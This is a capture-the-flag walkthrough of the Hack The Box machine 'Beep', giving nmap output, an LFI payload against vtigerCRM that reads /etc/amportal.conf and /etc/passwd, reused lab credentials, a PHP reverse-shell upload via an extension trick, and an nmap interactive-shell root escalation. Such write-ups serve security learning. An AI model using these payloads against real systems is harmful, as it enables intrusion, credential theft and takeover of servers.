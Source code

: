 ```yaml
---
title:     "Hack The Box - Beep"
tags: [linux,easy,setuid,cve,lfi,file-upload-vuln]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/1.png)

We are going to pwn Beep from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/5>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt


22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|printer|specialized
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (95%), Osmosys embedded (94%), HP embedded (94%), Enterasys embedded (94%), Riverbed RiOS (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.6.18 cpe:/h:linksys:wrv54g cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:enterasys:ap3620 cpe:/o:riverbed:rios cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.18 (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.30 (95%), Linux 2.6.5 (Fedora Core 2) (95%), Linux 2.6.5 - 2.6.12 (95%), Elastix PBX (Linux 2.6.18) (95%), Linksys WRV54G WAP (95%), Linux 2.6.27 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  beep.localdomain
80/tcp    open   http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) APOP UIDL RESP-CODES PIPELINING AUTH-RESP-CODE TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open   rpcbind    2 (RPC #100000)
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ANNOTATEMORE ID ATOMIC OK LISTEXT URLAUTHA0001 Completed QUOTA IMAP4rev1 LIST-SUBSCRIBED SORT LITERAL+ X-NETSCAPE RIGHTS=kxte MAILBOX-REFERRALS CONDSTORE IMAP4 UIDPLUS IDLE SORT=MODSEQ MULTIAPPEND THREAD=ORDEREDSUBJECT THREAD=REFERENCES UNSELECT CHILDREN BINARY STARTTLS NAMESPACE NO RENAME ACL CATENATE
443/tcp   open   ssl/https?
|_ssl-date: 2019-12-01T13:40:51+00:00; +1h00m15s from scanner time.
878/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/1%OT=22%CT=5%CU=35487%PV=Y%DS=2%DC=T%G=Y%TM=5DE3B55
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CC%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

While checking the webpage , it is an ``Elastix Login page``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/2.png)

So I searched in Searchsploit but there is more exploit and I cant find any version of it in the webpage 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/3.png)

Lets start randomly and this one looks interesting 

> https://www.exploit-db.com/exploits/37637


``` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action ```

This is an LFI exploit and it worked!
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/4.png)

And I found some credentials

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/5.png)

``` admin:jEhdIekWmdjE ```

Using the same LFI let's see ``/etc/password`` and found an user ``fanis``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/6.png)

We know the user so I tried to see the user flag
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/7.png)
And yeah, I got the user flag!!

Now Lets try to log in and see what in ``Elastix``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/8.png)
I cant find any vulnerabilities or any loop holes.

## Method 1:

I checked if there is any other vulnerability available on other ports and It doesnt look like any so I just tried login with the creds we found from the LFI in ssh ```root:jEhdIekWmdjE```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/9.png)

We are root!

## Method 2 (File Upload Vulnerability):

From the LFI I came to know there is another login page ``/vtigercrm`` it is an ``vtigerCRM``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/10.png)

I tried login with the same creds we found before ``admin:jEhdIekWmdjE``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/11.png)
It looks like they use same creds for all xD

I found we can change the logo so we can try to upload our payload.
It is in Settings -> Company Details
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/12.png)

I uploaded my reverse shell as ``shell.php.jpg`` and intercept it with burp and then change the extension back to ``shell.php``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/13.png)

I changed the extension to ``.php`` and forwarded. 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/14.png)

I check the source code to see the location of the logo.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/15.png)
It is in ``/test/logo/``

So listening on my machine, I got the shell<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/16.png)

## Privilege Escalation:

While checking ``sudo -l``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/17.png)

User ``asterisk`` can run these without root permission so i chose ``nmap`` from this.

I searched in GTFOBins

><https://gtfobins.github.io/gtfobins/nmap/>

So I tried it

```
nmap --interactive
nmap> !sh
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/18.png)

I'm Root now!


